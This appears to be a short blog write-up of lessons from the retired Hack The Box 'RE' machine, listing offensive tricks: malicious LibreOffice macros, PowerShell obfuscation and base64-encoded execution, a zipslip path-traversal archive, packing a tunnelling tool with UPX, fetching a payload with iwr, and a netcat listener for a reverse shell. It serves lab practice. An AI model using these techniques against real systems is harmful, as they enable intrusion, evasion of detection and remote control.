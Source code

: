 ```yaml
---
title: RE HTB Writeup
date: '2020-02-01 23:00:00'
categories: ["htb"]
---
```


# Takeaways from RE box

The Re box created from [0xdf](https://0xdf.gitlab.io/) was retired later this day. I did solve the box *after* it was retired so now I am going to show you some *key* things I learned from this box. A list of these is here:

* `Sometimes smbmap may throw false postivies. I always try to use smbclient.`

* `libreoffice calc also support macros, we can run malicious command from these docs.`

* `We can use` [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation for powershell obfuscation)` for powershell obfuscation`

* `The famous yara rules I saw on twitter but never took the chance to search it. Yara rules are basically a way to search for some common strings you provide to yara in order to identify malicious programs/files.`

* `I almost forgot about .ace files and winrar, and zipslip. This exploit was used on the box to go from one user to another. We had to create a malicious .zip file which contains inside a malicious file with a path traversal as filename.`

* [UPX](https://upx.github.io/)` I used this tool to make chisel.exe a little bit smaller. I have seen this from ippsec`

* `We can download file from powershell by using iwr -uri ip/file -outfile filename.evil`

* `We can run base64 encoded powershell commands but we need to use convert the strings to utf16 little endian using the command: iconv -t utf-16le and then pipe it to base64. After we can run the command by using powershell -encodedcommand base64string== `

* `Use rlwrap -nc -nvlp 7979 to have working arrow keys on windows.`

* [WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
`Like LinEnum but for windows.`

* 

Thats all. I didn't do the uninteded way. If you want to learn more goto 0xdf blog or see ippsec videos.